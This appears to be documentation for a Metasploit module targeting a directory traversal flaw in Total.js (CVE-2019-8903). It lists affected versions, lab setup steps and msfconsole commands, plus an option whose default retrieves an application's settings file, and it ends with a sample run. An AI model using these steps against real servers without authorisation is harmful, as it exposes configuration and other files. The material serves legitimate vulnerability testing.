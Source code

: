 ## Description

This module check and exploits a Directory Traversal vulnerability in Total.js framework < 3.2.4 (CVE-2019-8903). Here is a list of accepted extensions: flac, jpg, jpeg, png, gif, ico, js, css, txt, xml, woff, woff2, otf, ttf, eot, svg, zip, rar, pdf, docx, xlsx, doc, xls, html, htm, appcache, manifest, map, ogv, ogg, mp4, mp3, webp, webm, swf, package, json, md, m4v, jsx, heif, heic.

## Vulnerable Application

Affecting total.js package, versions:

* >=2.1.0 <2.1.1
* >=2.2.0 <2.2.1
* >=2.3.0 <2.3.1
* >=2.4.0 <2.4.1
* >=2.5.0 <2.5.1
* >=2.6.0 <2.6.3
* >=2.7.0 <2.7.1
* >=2.8.0 <2.8.1
* >=2.9.0 <2.9.5
* >=3.0.0 <3.0.1
* >=3.1.0 <3.1.1
* >=3.2.0 <3.2.4

## Verification Steps

1. On a Node v8 environment do: `npm install total.js@3.2.3`
2. Install an app on top of the Total.js framework, something like [Total.js CMS](https://github.com/totaljs/cms)
  * `git clone https://github.com/totaljs/cms.git`
  * `cd cms && npm install`
3. Start `msfconsole`
4. `use auxiliary/scanner/http/totaljs_traversal`
5. `set RHOST <IP>`
6. `set RPORT <PORT>`
7. `run`
8. Verify you get Total.js version if the target is vulnerable!

## Options

 **DEPTH**

  Traversal depth. Default is `1`

 **FILE**

  File to obtain. Default is `databases/settings.json`

## Scenarios

### Tested on Total.js framework 3.2.0 and Total.js CMS 12.0.0

```
msf5 > use auxiliary/scanner/http/totaljs_traversal 
msf5 auxiliary(scanner/http/totaljs_traversal) > set RHOST 192.168.2.59
RHOST => 192.168.2.59
msf5 auxiliary(scanner/http/totaljs_traversal) > set RPORT 8320
RPORT => 8320
msf5 auxiliary(scanner/http/totaljs_traversal) > run
[*] Running module against 192.168.2.59

[*] Total.js version is: ^3.2.0
[*] App name: CMS
[*] App description: A simple and powerful CMS solution written in Total.js / Node.js.
[*] App version: 12.0.0
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/totaljs_traversal) >
```
